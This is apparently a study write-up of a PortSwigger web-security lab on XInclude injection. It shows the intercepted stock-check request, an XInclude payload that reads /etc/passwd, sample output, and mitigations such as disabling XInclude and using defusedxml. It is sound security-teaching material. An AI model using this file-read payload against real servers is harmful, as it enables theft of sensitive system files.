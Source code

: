 # Exploiting XInclude to Retrieve Files (PortSwigger Lab)

## Exploiting XInclude to Retrieve Files

### **Lab URL:**

[PortSwigger Lab: Exploiting XInclude to Retrieve Files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)

***

### **High-Level Summary**

#### **Objective:**

Retrieve the contents of `/etc/passwd` using an **XInclude** attack.

#### **Key Techniques/Concepts:**

* **XInclude Injection:** Embedding an `XInclude` element to access sensitive files.
* **XML Parsing:** Bypassing traditional XXE constraints by leveraging `XInclude`.

#### **Key Learning:**

* Understanding how `XInclude` works as an alternative to XXE.
* Identifying different XML processing techniques in server-side parsing.

***

### **Lab Description**

This lab contains a **Check Stock** feature that embeds user input into a server-side XML document for processing. Since the entire XML document cannot be directly controlled, a traditional XXE attack is not feasible. Instead, an attacker must inject an `XInclude` statement to retrieve sensitive system files.

***

### **PortSwigger Solution**

1. **Generate Traffic:**
   * Visit a product page on the application.
   * Click **Check Stock** and intercept the request using Burp Suite.
2.  **Identify the Vulnerable Parameter:**

    * Locate the `POST` request to `/product/stock/`.
    * Identify the `productId` parameter in the request body:

    ```http
    POST /product/stock/ HTTP/1.1
    Host: target.com
    Content-Type: application/x-www-form-urlencoded

    productId=2&storeId=1
    ```
3.  **Craft the Payload:**

    * Replace the `productId` parameter with the following XInclude payload:

    ```xml
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>
    ```
4. **Send the Payload:**
   * Submit the modified request using Burp Suite's Repeater.
   * If successful, the contents of `/etc/passwd` will be returned in the response.

***

### **Instructor Solution**

1. **Reference Materials:**
   * The instructor referenced [PayloadAllTheThings - XInclude Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xinclude-attacks).
2. **Generate Traffic:**
   * Click "View details" on a product, then "View Stock" to generate traffic.
3.  **Identify Vulnerable Parameter:**

    * The vulnerable request was located in Burp Suite with the `POST` request to `/product/stock/`:

    ```http
    productId=2&storeId=1
    ```
4.  **Craft and Send Payload:**

    * The instructor replaced the `productId` with:

    ```xml
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>
    ```

    * Sent the payload, revealing the `/etc/passwd` file contents.

***

### **Step-by-Step Solution**

#### **1. Traffic Generation**

* Visit a product page and click **"View Stock"**.
* Intercept the `POST` request using Burp Suite.

```http
POST /product/stock/
Host: target.com
Content-Type: application/x-www-form-urlencoded

productId=2&storeId=1
```

***

#### **2. Payload Construction**

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

* The payload injects an XInclude directive to retrieve the `/etc/passwd` file.

***

#### **3. Execution and Response**

* Submit the modified request in Burp Suite's Repeater.
* If successful, the response will return the file contents.

```plaintext
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
```

***

### **Why This Solution Works**

* `XInclude` allows external file inclusion even when a traditional XXE attack is restricted.
* The `parse="text"` parameter ensures the server treats the file content as plain text rather than attempting to parse it as XML.

***

### **XInclude Attack Summary**

#### **What is XInclude?**

XInclude (XML Inclusions) allows external resources (like files) to be included in an XML document using the `<xi:include>` tag.

#### **Key Components:**

1.  **Namespace Declaration (Required)**

    ```xml
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    ```

    * This **activates** the XInclude feature in XML.
    * The URL `"http://www.w3.org/2001/XInclude"` is **not a link** but a **label** for the XML parser to recognize XInclude functionality.
2.  **File Inclusion Payload:**

    ```xml
    <xi:include parse="text" href="file:///etc/passwd"/>
    ```

    * **`href`** specifies the file to retrieve (`/etc/passwd`).
    * **`parse="text"`** ensures the file content is returned as plain text.

***

### **Security Considerations & Mitigation Strategies**

#### **Why XInclude Can Be Dangerous**

* XInclude enables **local file inclusion** even if external entities (XXE) are disabled.
* Attackers can leverage this feature to retrieve sensitive system files.

#### **Mitigation Techniques**

| **Secure Practice**                              | **Insecure Practice**                        |
| ------------------------------------------------ | -------------------------------------------- |
| Disable XInclude processing in XML parsers       | Allow unrestricted XML processing            |
| Use strict input validation                      | Accept untrusted XML input                   |
| Implement secure XML libraries                   | Use legacy XML parsers with default settings |
| Restrict file system access for web applications | Allow full access to system directories      |

#### **Example: Secure XML Parsing in Python**

```python
import defusedxml.ElementTree as ET
ET.parse('data.xml')  # Secure parsing without external entities
```

***

### **Conclusion**

This lab demonstrates how **XInclude vulnerabilities** can be exploited to retrieve **sensitive system files**. By enforcing **secure XML processing**, restricting **file inclusions**, and validating **user input**, organizations can mitigate these risks effectively.

